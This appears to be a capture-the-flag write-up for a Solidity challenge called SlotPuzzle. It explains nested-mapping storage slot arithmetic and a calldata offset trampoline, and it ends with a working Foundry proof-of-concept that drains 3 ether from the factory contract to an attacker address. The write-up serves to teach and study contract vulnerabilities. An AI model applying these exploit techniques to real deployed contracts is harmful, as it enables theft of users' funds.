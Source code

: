 # The slot calculation:
From the [doc](https://solidity-fr.readthedocs.io/fr/latest/internals/layout_in_storage.html#mappings-and-dynamic-arrays):

The value corresponding to a mapping `key` is located at `keccak256(key . slotNum)`, we can write a helper function to calculate this:
```solidity 
// calculate slot number of `map[key]`, MK stands for "Map Key"
function MK(uint key, uint mapSelfSlotIndex) public pure returns(uint) {
    return uint(keccak256(abi.encode(key, mapSelfSlotIndex)));
}
```
The value corresponding to `map[key1][key2]` is located at `keccak(key2, keccak(key1, slotNum))`, we use another helper function for this:
```solidity 
// calculate slot number of `map[key1][key2]`, MKK stands for "Map Key Key"
function MKK(uint key1, uint key2, uint mapSelfSlotIndex) public pure returns(uint) {
    uint slot1 = MK(key1, mapSelfSlotIndex);
    return MK(key2, slot1);
}
```
Then, for calculating `ghostInfo[tx.origin][block.number]`, we can do:
```solidity
slot = MKK(uint(uint160(hacker)), block.number, 1);
```
For `.map[block.timestamp][msg.sender]` and rest lines:
```solidity
slot += 1; // Struct member `ghostStore.map` is at slot 1
slot = MKK(block.timestamp, uint(uint160(address(slotPuzzleFactory))), slot);
```
For `.hash.push(ghost);`, it's array type and can be accessed by `keccak256(slot) + index`. Because it's the first element, the `index` is 0, it's simplly `keccak256(slot)`

# Build the `Parameters`
#### The goal:
We need to get 3 ether, but the `payout` limits the amount as 1 ether, so we need to use 3 recipients to get 3 ether.

#### The assembly slot calculation:
```solidity
bytes memory slotKey = params.slotKey;
uint256 offset = params.offset;
assembly {
    offset := calldataload(offset)
    slot := calldataload(add(slotKey, offset))
}
```
- The local variable `slotKey` is the first variable utilizes memory, normally the free memory pointer starts from 0x80, so the `slotKey` is at 0x80.
- It adds `offset` and `slotKey`, and the latter is 0x80, so it's simply `offset + 0x80`.
- The `offset` is a pointer, the real offset is `calldata[offset]`, this value + 0x80 points to the location in the calldata that holds the real slot. We can add an extra 32-bytes to the `Parameters.slotKey` as a trampoline, points to the real slot key, and set the `Parameters.offset` to the trampoline, as:
```solidity
params.slotKey = abi.encode(slot, uint(0x124));
```
To explain this, here's the memory layout of calldata:
```
4 bytes function signature + 
0x0:   0000000000000000000000000000000000000000000000000000000000000020  
0x20:  0000000000000000000000000000000000000000000000000000000000000003 
0x40:  00000000000000000000000000000000000000000000000000000000000001c4  Parameters.offset, points to the last 32 bytes(offset 0x1c0 + 4byte-signature)
0x60:  0000000000000000000000000000000000000000000000000000000000000080  
0x80:  0000000000000000000000000000000000000000000000000000000000000160  
0xa0:  0000000000000000000000000000000000000000000000000000000000000003
0xc0:  000000000000000000000000a63c492d8e9ede5476ca377797fe1dc90eeae7fe
0xe0:  0000000000000000000000000000000000000000000000000de0b6b3a7640000
0x100: 000000000000000000000000a63c492d8e9ede5476ca377797fe1dc90eeae7fe
0x120: 0000000000000000000000000000000000000000000000000de0b6b3a7640000
0x140: 000000000000000000000000a63c492d8e9ede5476ca377797fe1dc90eeae7fe
0x160: 0000000000000000000000000000000000000000000000000de0b6b3a7640000
0x180: 0000000000000000000000000000000000000000000000000000000000000040  Parameters.slotKey
0x1a0: 754b4b7d6f6040542424c2056f8a1f3bc9d0006ff0a20abd08723e65cae65128
0x1c0: 0000000000000000000000000000000000000000000000000000000000000124  0x124+0x80==0x1a4, points to the above line(the real slot number)
```


# POC (Foundry)
```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";

import {SlotPuzzle} from "src/SlotPuzzle.sol";
import {SlotPuzzleFactory} from "src/SlotPuzzleFactory.sol";
import {Parameters,Recipients} from "src/ISlotPuzzleFactory.sol";


contract SlotPuzzleTest is Test {
	SlotPuzzle public slotPuzzle;
	SlotPuzzleFactory public slotPuzzleFactory;
	address hacker;

	function setUp() public {
		slotPuzzleFactory = new SlotPuzzleFactory{value: 3 ether}();
		hacker = makeAddr("hacker");
	}

	function testHack() public {
		vm.startPrank(hacker,hacker);
		assertEq(address(slotPuzzleFactory).balance, 3 ether, "weth contract should have 3 ether");

		//hack time

		uint slot;
		{ // calculate slot
			// for: `ghostInfo[tx.origin][block.number]`
			slot = MKK(uint(uint160(hacker)), block.number, 1);

			// for: `.map[block.timestamp][msg.sender]`
			slot += 1; // Struct member `ghostStore.map` is at slot 1
			slot = MKK(block.timestamp, uint(uint160(address(slotPuzzleFactory))), slot);

			// for: `.map[block.prevrandao][block.coinbase]`
			slot += 1; // Struct member `ghostStore.map` is at slot 1
			slot = MKK(block.prevrandao, uint(uint160(address(block.coinbase))), slot);

			// for: `.map[block.chainid][address(uint160(uint256(blockhash(block.number - block.basefee))))]`
			slot += 1; // Struct member `ghostStore.map` is at slot 1
			slot = MKK(block.chainid, uint(blockhash(block.number - block.basefee)), slot);

			// for: `.hash.push(ghost);`
			slot = uint(keccak256(abi.encode(slot)));
		}

		Parameters memory params;
		{ // build Parameters
			params.totalRecipients = 3; // same as recipients.length
			params.offset = 0x1c4; // points to last 32bytes

			Recipients memory recip; // add `hacker` as recipient 3 times
			recip.account = hacker;
			recip.amount = 1 ether; // has to be 1 ether
			params.recipients = new Recipients[](3);
			for(uint i=0; i<3; i++) {
				params.recipients[i] = recip;
			}

			// append an extra 32bytes(value 0x124) to the end, which acts as
			// a trampoline, points to the real slot
			params.slotKey = abi.encode(slot, uint(0x124));
		}

		slotPuzzleFactory.deploy(params);

		// ---- end of hack ----

		assertEq(address(slotPuzzleFactory).balance, 0, "weth contract should have 0 ether");
		assertEq(address(hacker).balance, 3 ether, "hacker should have 3 ether");

		vm.stopPrank();
	}

	// calculate slot number of `map[key]`
	function MK(uint key, uint mapSelfSlotIndex) public pure returns(uint) {
		return uint(keccak256(abi.encode(key, mapSelfSlotIndex)));
	}
	// calculate slot number of `map[key1][key2]`
	function MKK(uint key1, uint key2, uint mapSelfSlotIndex) public pure returns(uint) {
		uint slot1 = MK(key1, mapSelfSlotIndex);
		return MK(key2, slot1);
	}
}

```
